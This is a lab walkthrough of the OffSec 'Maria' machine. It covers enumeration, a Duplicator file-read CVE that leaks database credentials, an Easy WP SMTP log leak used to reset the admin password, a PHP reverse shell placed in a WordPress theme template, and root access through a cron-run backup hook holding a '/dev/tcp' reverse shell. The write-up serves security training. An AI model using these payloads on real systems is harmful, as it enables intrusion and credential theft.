







# Maria

## Enumeration

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/Maria]
└─$ nmap -sCV -Pn -A -T4 192.168.173.167 -o nmapscan.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-17 04:25 EST
Nmap scan report for 192.168.173.167
Host is up (0.056s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    5 0        0            4096 Sep 21  2018 automysqlbackup
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.208
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Maria
|_http-generator: WordPress 5.7.1
|_http-server-header: Apache/2.4.38 (Debian)
3306/tcp open  mysql   MariaDB 5.5.5-10.3.27
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 17
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, Support41Auth, Speaks41ProtocolNew, SupportsTransactions, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, Speaks41ProtocolOld, InteractiveClient, ConnectWithDatabase, SupportsCompression, FoundRows, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, LongColumnFlag, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: <yl5ahfHs,}Vvl=*Zelo
|_  Auth Plugin Name: mysql_native_password
```

* Anonymous login is allowed in ftp. There is a folder called automysqlbackup. No download or write permissions.

* Web server running on wordpress. Normal wordpress enumeration do not show any wordpress plugins. So we use aggressive scan method.

```
wpscan --url http://192.168.173.167 --enumerate p --plugins-detection aggressive
.
.
[i] Plugin(s) Identified:

[+] akismet
 | Location: http://192.168.173.167/wp-content/plugins/akismet/
 | Latest Version: 5.6
 | Last Updated: 2025-11-12T16:31:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.173.167/wp-content/plugins/akismet/, status: 403
 |
 | The version could not be determined.

[+] duplicator
 | Location: http://192.168.173.167/wp-content/plugins/duplicator/
 | Last Updated: 2025-12-10T19:32:00.000Z
 | Readme: http://192.168.173.167/wp-content/plugins/duplicator/readme.txt
 | [!] The version is out of date, the latest version is 1.5.14
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.173.167/wp-content/plugins/duplicator/, status: 200
 |
 | Version: 1.3.26 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.173.167/wp-content/plugins/duplicator/readme.txt

[+] easy-wp-smtp
 | Location: http://192.168.173.167/wp-content/plugins/easy-wp-smtp/
 | Last Updated: 2025-11-27T15:34:00.000Z
 | Readme: http://192.168.173.167/wp-content/plugins/easy-wp-smtp/readme.txt
 | [!] The version is out of date, the latest version is 2.13.1
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.173.167/wp-content/plugins/easy-wp-smtp/, status: 200
 |
 | Version: 1.4.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.173.167/wp-content/plugins/easy-wp-smtp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.173.167/wp-content/plugins/easy-wp-smtp/readme.txt

```

* duplicator 1.3.26 is vulnerable to arbitary file read. (cve_2020-11738)



* So we check the wp-config.php file.


* From this file we get database creds wordpress:wordpress, we try to login to mysql but access is denied.

* Tried to get user joseph id_rsa file to login via ssh - no success

* Check for other config files. Path for config files for  vsftpd 3.0.3 is /etc/vsftpd.conf



* So files are in /srv/ftp. We can check the files in the ftp.



* /etc/msql/debian.cnf return nothing.

python3 50420.py http://192.168.173.167 /srv/ftp/automysqlbackup/usr/sbin/automysqlbackup



* The bash files indicate that username and password seems to be from the /etc/default/automysqlbackup file. So we try to get cotents of that file.


* We get sql creds backup:EverydayAndEverynight420. We try to login to mysql.

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/Maria]
└─$ MYSQL_TCP_PORT=3306 mysql --skip-ssl --protocol=TCP -h 192.168.173.167 -u backup -p   
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 72
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.060 sec)

MariaDB [(none)]> use wordpress
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress]> show tables;
+------------------------+
| Tables_in_wordpress    |
+------------------------+
| wp_commentmeta         |
| wp_comments            |
| wp_duplicator_packages |
| wp_links               |
| wp_options             |
| wp_postmeta            |
| wp_posts               |
| wp_term_relationships  |
| wp_term_taxonomy       |
| wp_termmeta            |
| wp_terms               |
| wp_usermeta            |
| wp_users               |
+------------------------+
13 rows in set (0.050 sec)

MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+-----------------+--------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email      | user_url           | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-----------------+--------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BQRpFYXVT4fNnin4CFuOiqUHRWchS40 | admin         | joseph@maria.pg | http://example.com | 2021-05-19 15:14:10 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+-----------------+--------------------+---------------------+---------------------+-------------+--------------+
```

* We get the admin hash. We try to crack - no success.

__________________________________________________________________

* We try to look into vulnerable plugin Easy-wp-smtp 1.4.1

_The Easy WP SMTP plugin has an optional debug log where it writes all email messages (headers and body) sent by the blog. It is located inside the plugin’s installation folder, “/wp-content/plugins/easy-wp-smtp/”.The log is a text file with a random name, e.g., 5fcdb91308506_debug_log.txt. The plugin’s folder doesn’t have any index.html file, hence on servers that have directory listing enabled, hackers can find and view the log._

_The debug lof path or filename can be found in wordpress database in the 'wp_options' table._

* So, we goback to mysql database and find the name of the log file.
* It seems there are no email entries in the file(search by debug_log).
* So to trigger an email, we go to wordpress admin login page, and select forget password option. Email is sent to admin for password reset.
* So we go back to mysql database wp_options table and get the log name - 6942dfe3b4871_debug_log.txt



* We browse to  http://192.168.173.167/wp-content/plugins/easy-wp-smtp/6942dfe3b4871_debug_log.txt.



* We get a link to change the admin password(Joseph@maria2025) and login as admin.

### Getting a reverse shell.

* Wordpress theme editor reverse shell

_Go to Appearance > theme editor > select theme to edit(20-21) > select 404 template > paste the reverse shell payload > click update file._

* Here the theme twenty twenty, we were unable to save the php payload. So choose twenty twenty-one

```
<?php
set_time_limit(0);
$ip = '192.168.45.208';
$port = 80;

$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/bash -i', array(
    0 => $sock,
    1 => $sock,
    2 => $sock
), $pipes);
?>
```
* outbound is blocked. So set the listener at port 80.

* Browse to http://192.168.173.167/wp-content/themes/twentytwentyone/404.php , and we get a shell

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/Maria]
└─$ nc -nvlp 80  
listening on [any] 80 ...
connect to [192.168.45.208] from (UNKNOWN) [192.168.173.167] 37958
bash: cannot set terminal process group (603): Inappropriate ioctl for device
bash: no job control in this shell
www-data@maria:/var/www/html/wordpress/wp-content/themes/twentytwentyone$ python -c 'import pty;pty.spawn("/bin/bash")'
```

## PrivEsc

* From the ftp server we saw cron job automysqlbackup running. Maybe it belong to root so we can’t see it from www-data user.

* use pspy to check if any cronjob run by root.

```
www-data@maria:/tmp$ ./pspy64
./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d

2025/12/18 01:13:01 CMD: UID=0     PID=3416   | /bin/sh -c /usr/sbin/automysqlbackup 
2025/12/18 01:13:01 CMD: UID=0     PID=3417   | /bin/bash /usr/sbin/automysqlbackup 
2025/12/18 01:13:01 CMD: UID=0     PID=3418   | /bin/bash /usr/sbin/automysqlbackup 
2025/12/18 01:13:01 CMD: UID=0     PID=3419   | /bin/bash /usr/sbin/automysqlbackup 
2025/12/18 01:13:01 CMD: UID=0     PID=3420   | /bin/bash /usr/sbin/automysqlbackup 
.
.

```
* We try to run the above file and got the error,



* As www-data, we have write permission to /var/www/html/wordpress/*. We can simply just create a reverse shell script and name it “backup-post”, it will be executed by root, resulting in a root reverse shell.

```
www-data@maria:/usr/sbin$ cd /var/www/html/wordpress/backup_scripts/
cd /var/www/html/wordpress/backup_scripts/
www-data@maria:/var/www/html/wordpress/backup_scripts$ echo 'sh -i >& /dev/tcp/192.168.45.208/80 0>&1' > backup-post 
< >& /dev/tcp/192.168.45.208/80 0>&1' > backup-post    
www-data@maria:/var/www/html/wordpress/backup_scripts$ chmod +x backup-post
chmod +x backup-post
```

* We get a reverse shell at port 80.

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/Maria]
└─$ nc -nvlp 80              
listening on [any] 80 ...
connect to [192.168.45.208] from (UNKNOWN) [192.168.157.167] 44528
sh: 0: can't access tty; job control turned off
# id 
uid=0(root) gid=0(root) groups=0(root)
# cat /root/proof.txt
a4cd49a1e8e5de2d91147ac9e21ba238
# 
```


